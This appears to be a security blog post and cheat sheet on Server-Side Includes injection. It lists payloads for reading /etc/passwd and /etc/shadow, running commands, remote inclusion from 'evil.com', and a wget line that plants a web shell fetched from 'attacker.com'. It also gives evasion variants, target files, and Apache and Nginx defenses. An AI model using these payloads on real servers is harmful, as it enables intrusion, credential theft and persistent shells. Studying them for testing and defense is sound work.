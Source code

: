 ```yaml
---
layout: post
title: SSI (Server-Side Includes) Injection
date: 2025-04-10 17:34 +0300
categories: [Web Security, Server-Side Attacks]
---
```


## What is SSI Injection?

Server-Side Includes (SSI) are directives in HTML pages that are evaluated on the server before the page is delivered to the client. SSI injection occurs when an attacker can inject these directives into a page that is then parsed by an SSI-enabled server.

## SSI Directive Syntax

Basic syntax: `<!--#directive parameter="value" -->`

## Common SSI Directives

### File Operations

```
<!--#include virtual="/path/to/file" -->
<!--#include file="/path/to/file" -->
<!--#flastmod file="index.html" -->
<!--#fsize file="index.html" -->
```

### Command Execution

```
<!--#exec cmd="command" -->
<!--#exec cgi="/cgi-bin/script.cgi" -->
```

### Environment Variables

```
<!--#echo var="DOCUMENT_NAME" -->
<!--#echo var="DATE_LOCAL" -->
<!--#echo var="REMOTE_ADDR" -->
```

### Flow Control

```
<!--#if expr="test_condition" -->
<!--#elif expr="test_condition" -->
<!--#else -->
<!--#endif -->
```

## SSI Injection Attack Vectors

### Basic Injection Test

```
<!--#echo var="DATE_LOCAL" -->
```
If this renders the current date, the server processes SSI directives.

### File Disclosure

```
<!--#include virtual="/etc/passwd" -->
<!--#include file="/etc/passwd" -->
```

### Remote File Inclusion

```
<!--#include virtual="http://evil.com/malicious-script.html" -->
```

### Command Execution

```
<!--#exec cmd="ls -la" -->
<!--#exec cmd="cat /etc/passwd" -->
<!--#exec cmd="id" -->
```

### Cross-Site Scripting via SSI

```
<!--#echo var="QUERY_STRING_UNESCAPED" -->
```

### Directory Traversal

```
<!--#include virtual="../../../etc/passwd" -->
```

## Advanced Techniques

### Chained Exploits

```
<!--#exec cmd="wget http://attacker.com/shell.php -O /var/www/html/shell.php" -->
```

### Encoded Payloads

URL-encoded:
```
%3C%21--%23exec%20cmd%3D%22id%22%20--%3E
```

### Environment Variable Abuse

```
<!--#if expr="${REQUEST_URI} = /admin" -->
<!--#set var="admin" value="true" -->
<!--#endif -->
```

### System Information Disclosure

```
<!--#echo var="SERVER_SOFTWARE" -->
<!--#echo var="SERVER_NAME" -->
<!--#echo var="REMOTE_HOST" -->
```

## Platform-Specific Payloads

### Windows Systems

```
<!--#exec cmd="dir C:\" -->
<!--#exec cmd="type C:\Windows\win.ini" -->
<!--#exec cmd="net users" -->
```

### Unix/Linux Systems

```
<!--#exec cmd="uname -a" -->
<!--#exec cmd="cat /etc/shadow" -->
<!--#exec cmd="netstat -an" -->
```

### Web Server Specific

#### Apache
```
<!--#exec cmd="apache2ctl -V" -->
<!--#include virtual="/.htaccess" -->
```

#### Nginx
```
<!--#include virtual="/etc/nginx/nginx.conf" -->
```

## Evasion Techniques

### Obfuscation

```
<!--#e<!--#e<!--#exec cmd="id"-->x<!--#e-->ec cmd="ls" -->
```

### Alternative Expressions

```
<!--#if expr="$DOCUMENT_URI = /\/admin\//?" -->
sensitive content
<!--#endif -->
```

### Comments Within Directives

```
<!--#exec <!-- comment --> cmd="id" -->
```

## Detection Methods

### Testing for SSI Vulnerability

1. Input: `<!--#echo var="DATE_LOCAL" -->`
2. Expected output: Current date if vulnerable

### Using Error Messages

Input: `<!--#echo var="UNDEFINED_VARIABLE" -->`

## Common Files to Target

```
/etc/passwd
/etc/shadow
/etc/hosts
/proc/self/environ
/var/log/apache2/access.log
/var/log/nginx/access.log
.htaccess
web.config
```

## Defense Mechanisms

### Server Configuration
- Disable SSI processing if not needed
- Use `IncludesNOEXEC` option to disable `exec` command
- Implement proper input validation
- Set restrictive file permissions

### Apache Configuration
```
<Directory "/var/www/html">
    Options -Includes
    # or
    Options +IncludesNOEXEC
</Directory>
```

### Nginx Configuration
```
ssi off;
```

### Application-Level Defenses
- Validate and sanitize user input
- Implement proper output encoding
- Use Content Security Policy (CSP)

## SSI File Extensions
SSI is typically processed in these file types:
- `.shtml`
- `.shtm`
- `.stm`
- Sometimes `.html` if configured

## References
- [OWASP Server-Side Includes (SSI) Injection](https://owasp.org/www-community/attacks/Server-Side_Includes_(SSI)_Injection)
- [Apache SSI Documentation](https://httpd.apache.org/docs/current/howto/ssi.html)
- [Nginx SSI Module](http://nginx.org/en/docs/http/ngx_http_ssi_module.html)
- [PayloadsAllTheThings SSI Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Include%20Injection)


